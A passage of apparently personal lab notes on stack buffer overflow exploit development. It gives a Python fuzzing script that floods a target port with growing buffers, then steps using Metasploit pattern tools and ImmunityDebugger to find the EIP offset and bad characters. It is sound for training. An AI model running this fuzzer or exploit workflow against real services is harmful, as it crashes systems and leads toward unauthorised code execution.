 ```
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
        try:
                payload = buffer + '\r\n'
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect(('<targetIP>',<port>))
                print("[+] Sending the payload...\n" + str(len(buffer)))
                s.send((payload.encode()))
                s.close()
                sleep(1)
                buffer = buffer + "A" * 100
        except:
                print("The fuzzing crashed at %s bytes" % str(len(buffer)))
                sys.exit()
```

2.  Launch executable and attach process to **ImmunityDebugger**, press **Play**
3.  From Kali, update **buffer_fuzz.py** with target port and IP address, then run : `python3 buffer_fuzz.py`
4.  Take note of approximate bytes to crash

### Find the offset:
1.  Create payload:  
    `msf-pattern_create -l <approx_num_of_bytes_to_crash>`
2.  Update **buffer_fuzz_nosleep.py** with the target IP and port, and paste the payload generated from above step, then run: `python3 buffer_fuzz_nosleep.py`
3.  Confirming in ImmunityDebugger it has crashed (paused) and copy the value that has written over the EIP ("EIPvalue")
4.  From Kali, create new payload:  
    `msf-pattern_offset -l <approx_num_of_bytes_to_crash> -q <EIPvalue>`
5. Take note of **match at offset** "offsetnumber"
6. Update **buffer_fuzz_withoffset.py** with target IP and port and the ("offsetnumber") then run: `python3 buffer_fuzz_withoffset.py`
7. Confirm in ImmunityDebugger that **EIP** has been overwritten with **42424242**
![87d951d242d8cce48c524d6f1d746162.png](../../_resources/87d951d242d8cce48c524d6f1d746162.png)

### Look for bad characters:
1. Update buffer_fuzz_badchars.py with target IP, port, offsetnumber and run:
`python3 buffer_fuzz_badchars.py`
2. In **ImmunityDebugger**, right click the **ESP** and choose **Follow in Dump**
3. Look in the hex dump and look for any charachers out of place (they become the bad characters not to include in shell)

